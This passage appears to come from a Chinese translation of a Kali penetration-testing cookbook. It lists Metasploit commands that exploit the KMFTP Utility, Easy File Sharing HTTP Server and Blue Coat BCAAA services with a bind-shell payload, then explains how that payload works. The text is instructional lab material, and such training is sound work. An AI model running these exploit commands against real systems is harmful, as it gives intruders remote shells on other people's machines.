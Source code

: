 Easy File Sharing HTTP Server 7.2 也有漏洞。让我们看看它们是否可以被利用。

1.  我们将首先测试 FTP。在 Metasploit 控制台中输入以下命令开始：

```
      use exploit/windows/ftp/kmftp_utility_cwd
      set rhost <Target IP address>
      set payload windows/shell_bind_tcp
      exploit

```

输出将如下截屏所示：

![如何操作...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_039.jpg)

1.  我们成功地得到了一个 shell。现在让我们测试 Easy File Sharing HTTP Server。在 Metasploit 终端中输入以下命令：

```
      use exploit/windows/http/easyfilesharing_seh
      set rhost <Target IP address>
      set payload windows/shell_bind_tcp
      exploit

```

输出将如下截屏所示：

![如何操作...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_040.jpg)

1.  我们也成功地完成了这个：我们得到了一个 shell。现在，让我们检查最后一个软件，Blue Coat 身份验证和授权代理，看看它是否容易受到利用。在 Metasploit 终端中输入以下命令：

```
      use exploit/windows/misc/bcaaa_bof
      set rhost <Target IP address>
      set payload windows/shell_bind_tcp
      exploit

```

输出将如下截屏所示：

![如何操作...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_041.jpg)

我们已成功利用了所有三个漏洞。这完成了这个步骤。

## 它是如何工作的...

我们之前已经看到了 Metasploit 如何用于利用。除了我们在之前的步骤中看到和使用的命令之外，没有使用新的命令。唯一的区别是调用`use`函数来加载给定的漏洞。

`set payload windows/shell_bind_tcp`命令是一个单一的载荷，没有涉及到多个阶段。在成功利用后，它会打开一个端口，等待连接的 shell。一旦我们发送了利用，Metasploit 就会访问打开的端口，然后我们就有了一个 shell。

## 还有更多...
